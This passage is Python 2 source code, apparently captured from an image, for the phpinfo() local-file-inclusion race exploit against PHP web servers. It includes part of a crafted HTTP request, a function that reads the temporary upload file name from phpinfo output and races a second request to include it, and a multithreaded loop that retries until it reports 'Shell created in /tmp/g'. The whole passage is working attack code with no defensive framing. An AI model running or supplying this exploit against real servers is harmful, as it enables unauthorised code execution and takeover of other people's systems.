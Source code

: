 ```python
User-Agent: Mozilla/4.0\r
Proxy-Connection: Keep-Alive\r
Cookie: PHPSESSID=""" + phpsessid + """\r
Host: %s\r
\r
\r
"""
    return (REQ1, TAG, LFIREQ)

def phpInfoLFI(host, port, phpinforeq, offset, lfireq, tag):
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s2 = socket.socket(socket.AF_INET, socket.SOCK_STREAM)    

    s.connect((host, port))
    s2.connect((host, port))

    s.send(phpinforeq)
    d = ""
    while len(d) < offset:
        d += s.recv(offset)
    try:
        i = d.index("[tmp_name] =>")
        fn = d[i+17:i+31]
    except ValueError:
        return None

    s2.send(lfireq % (fn, host))
    d = s2.recv(4096)
    s.close()
    s2.close()

    if d.find(tag) != -1:
        return fn

counter=0
class ThreadWorker(threading.Thread):
    def __init__(self, e, l, m, *args):
        threading.Thread.__init__(self)
        self.event = e
        self.lock =  l
        self.maxattempts = m
        self.args = args

    def run(self):
        global counter
        while not self.event.is_set():
            with self.lock:
                if counter >= self.maxattempts:
                    return
                counter+=1

            try:
                x = phpInfoLFI(*self.args)
                if self.event.is_set():
                    break                
                if x:
                    print "\nGot it! Shell created in /tmp/g"
                    self.event.set()
                    
            except socket.error:
                return
    

```